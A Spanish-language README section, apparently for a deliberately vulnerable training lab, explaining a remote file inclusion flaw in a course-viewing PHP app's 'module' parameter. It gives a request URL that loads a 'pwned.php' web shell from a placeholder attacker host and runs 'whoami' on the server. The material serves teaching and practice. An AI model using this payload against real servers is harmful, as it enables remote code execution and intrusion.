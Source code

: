 ## 🚨 Remote File Inclusion (LFI-Lab)
- Aplicación vulnerable a inclusión remota de archivos.
- Se trata de una aplicación de visualización de cursos, la vulnerabilidad está presente en el momento en el que el usuario consulta más información acerca de un curso.
- Esta vulnerabilidad es muy crítica ya que un atacante puede incluir archivos maliciosos y por consiguiente, obtener ejecución remota de comandos.

El parámetro **module** empleado a la hora de cargar los cursos es manipulable de forma que podemos incluir un archivo de un servidor remoto.

Si un atacante logra incluir un archivo remoto como este puede llegar a ejecutar comandos en el servidor:

![WebShell php](file.png)

Si posteriormente el atacante hace la siguiente petición GET logra ejecutar el comando **whoami** en el servidor:

```sh
http://{ip_servidor}:{port_servidor}/course.php?module=http://{ip_atacante}/pwned.php&cmd=whoami
```